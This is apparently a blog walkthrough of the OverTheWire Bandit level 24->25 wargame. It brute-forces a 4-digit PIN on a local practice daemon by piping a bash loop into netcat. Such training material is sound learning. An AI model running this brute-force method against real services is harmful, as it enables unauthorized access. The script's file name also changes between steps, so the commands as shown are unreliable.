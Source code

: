 ```yaml
---
title: OverTheWire Bandit Level 24-> 25
date: 2022-01-07 22:05:00 +0000
categories: [OverTheWire, Bandit]
tags: [overthewire, bandit]
description: Solution for OverTheWire Bandit level 25 challenge
---
```


Solution for the Overthewire.org [Bandit level 24 -> 25](https://overthewire.org/wargames/bandit/bandit25.html){:target="\_blank"}

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 23 -> 24]({% post_url 2021-12-06-overthewire-bandit-24 %}).  

username: `bandit24`  

```ssh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

For this challenge we need to send a password to a specific port on localhost, we have done this before on previous levels but the difference this time is that we need to send a 4 digit pincode with the password.  
Unfortunately we do not know what the pincode is so we will need to try all possible combinations until we get the right one.

The first thing to do is to connect to port 30002 and see what it is doing.  
We can use netcat to connect to port 30002 on localhost.

```console
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. 
Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTr########################## 1234
Wrong! Please enter the correct pincode. Try again.

Fail! You did not supply enough data. Try again.
UoMYTr 124
Wrong! Please enter the correct current password. Try again.

bandit24@bandit:~$
```

What we can see is that the daemon running on port 30002 wants the data entered in a specific format.  
```<BANDIT24 PASSWORD> <4 DIGIT PIN>```

The daemon first checks if the password is correct before checking the pincode.  
If the password is incorrect we get a message stating that the password was incorrect. The pincode is not checked.  
If the password is correct and the pincode is incorrect we get a different message stating the pincode is incorrect.
Since we are using the same password used to login to this level we should not see the password incorrect message.

The daemon wants a 4 digit pincode so we need to check all pincodes from 0000 to 9999 to find the correct one.  
Doing this by hand would take a long time (10,000 pincodes to check). It is more efficient to create a program to do this for us.

First lets create a directory in `/tmp` to work from

```console
bandit24@bandit:~$ mkdir /tmp/work_dir
bandit24@bandit:~$ cd /tmp/work_dir
bandit24@bandit:/tmp/work_dir$
```

Now to create a bash script to create all 10,000 password pincode combinations we need to test.
I used vim to create a file try_passwords.sh and wrote this code into it.

```bash
#!/bin/bash

for i in {000..9999}
do
    echo UoMYTr************************** $i 
done
```

The code will create all 4 digit pincodes we need.
Next we need to give the file execute permissions

```console
bandit24@bandit:/tmp/work_dir$ chmod +x try_password.sh
```

Now all thats left is to run the bash script and send it's output to netcat.  
This will run for a while as it is trying 10,000 pincodes but eventually you will see the correct message and get the password for bandit25.

```console
bandit24@bandit:/tmp/work_dir$ ./try_pass.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O5##########################

Exiting.
bandit24@bandit:/tmp/work_dir$
```
